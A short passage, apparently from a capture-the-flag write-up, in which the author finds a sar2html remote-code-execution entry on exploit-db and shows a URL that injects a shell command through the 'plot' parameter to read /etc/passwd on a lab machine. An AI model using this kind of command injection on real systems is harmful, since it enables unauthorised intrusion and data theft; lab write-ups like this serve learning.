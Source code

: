 <br>

I search for **sar2html exploit** and find something on [**exploit-db**](https://www.exploit-db.com/exploits/47204) saying you can get RCE:

<br>

![](images/boiler6.png)

<br>

Going to the following URL:

```
10.10.116.239/joomla/_test/index.php?plot=;cat%20/etc/passwd
```

<br>
